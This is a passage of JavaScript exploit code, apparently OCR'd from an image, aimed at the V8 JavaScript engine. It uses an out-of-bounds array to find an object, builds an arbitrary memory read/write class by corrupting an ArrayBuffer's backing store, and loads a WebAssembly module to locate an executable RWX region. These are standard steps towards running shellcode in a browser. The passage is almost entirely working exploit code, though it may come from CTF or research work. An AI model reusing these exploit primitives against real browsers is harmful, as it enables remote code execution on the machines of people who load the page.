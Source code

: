 ```
        console.log("[*]find target objecets in oobArray number ["+i+"]");
        oobArray[i]=ct.i2f(0x123500000000);
        break;
    }
}

for(let i=0;i&lt;100;i++)
{    
    if(objs[i].a===0x1235){
           console.log("[*]find target objs number ["+i+"]");
        obj_index=i;
        break;
    }    
}

class ArbitraryRW
{
    leak_obj(obj){
        objs[obj_index].a = obj;
        return ct.f2i(oobArray[obj_offset]) - 1;
    }
    read(addr){
        oobArray[backing_store]=ct.i2f(addr);
        oobArray[kbitfield]=ct.i2f(addr);
        //console.log(hex(addr));
        //console.log(hex(ct.f2i(oobArray[backing_store])));
        //console.log(hex(ct.f2i(oobArray[kbitfield])));
        let tmp=new Float64Array(arrays[buf_index],0,0x10);
        return ct.f2i(tmp[0]);
    }
    write(addr,value){
        oobArray[backing_store]=ct.i2f(addr);
        oobArray[kbitfield]=ct.i2f(addr);
        this.f64=new Float64Array(arrays[buf_index],0,0x10);
        this.f64[0]=ct.i2f(value);
    }
    leak(){
        return ct.f2i(oobArray[kbitfield]);
    }
}

let wr=new ArbitraryRW();

var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
let f=wasmInstance.exports.main;

%DebugPrint(f);
let asm_addr=wr.leak_obj(f);
console.log("[*]address of asm = "+hex(asm_addr));
let sharedInfo =wr.read(asm_addr+0x18)-1;
let functionData=wr.read(sharedInfo+0x8)-1;
let instanceAddr=parseInt(wr.read(functionData+0x70)/0x10000);
console.log("functionData addresss ="+hex(functionData));
console.log("[*] RWX address ="+hex(instanceAddr));


```